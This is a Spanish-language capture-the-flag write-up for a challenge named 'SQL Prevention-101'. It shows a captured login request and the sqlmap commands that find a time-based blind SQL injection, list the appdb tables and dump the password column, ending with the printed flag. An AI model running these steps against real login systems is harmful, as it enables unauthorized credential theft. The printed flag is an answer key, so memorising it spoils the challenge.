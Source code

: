 SQL Prevention-101

Just try to hack my [login](https://sql-prevention-101.acmcyber.com/) with account "admin", I've taken all the precautions that I can...

Author: Gary

Tags: sql

---

Vamos a la URL y tal como dice la descripción es un login, probamos con credenciales random y obtenemos:
![Con credenciales random](../images/2023-03-08_070446_sql-prevention-101.acmcyber.com.png)

Aunque nos dice que no es de sqli, vamos a probar con sqlmap, primero con BurpSuite nos guardamos el request:

```
POST / HTTP/2
Host: sql-prevention-101.acmcyber.com
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://sql-prevention-101.acmcyber.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://sql-prevention-101.acmcyber.com/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9

username=admin&password=nimda
```

Para que esto no quede tan largo se omiten la mayoria de las salidas de sqlmap:

Para obtener la base de datos usamos:

`sqlmap -r gary.req --current-db`

Lo cual nos retorna, que tipo de base de datos se usa, 1 ataque(time-based blind) y cual es la base de datos actual: appdb

Para saber las tablas de appdb:

`sqlmap -r gary.req -D appdb --tables`

```bash
[06:37:53] [INFO] fetching tables for database: 'appdb'
[06:37:53] [INFO] fetching number of tables for database 'appdb'
[06:37:53] [INFO] retrieved: 1
[06:38:10] [INFO] retrieved: user
Database: appdb
[1 table]
+------+
| user |
+------+
```

Le pedimos las columnas:

`sqlmap -r gary.req -D appdb -T user --dump`

Nos retorna que la primer columna es password

Pedimos ver el contenido de la columna password:

`sqlmap -r gary.req -D appdb -T user -C password --dump`

```bash
Database: appdb
Table: user
[1 entry]
+------------------------+
| password               |
+------------------------+
| flag{curse_you_mysql!} |
+------------------------+
```
Por las dudas probamos con las credenciales admin/flag{curse_you_mysql!}

![Flag](../images/2023-03-08_070416_sql-prevention-101.acmcyber.com.png)

Flag: flag{curse_you_mysql!}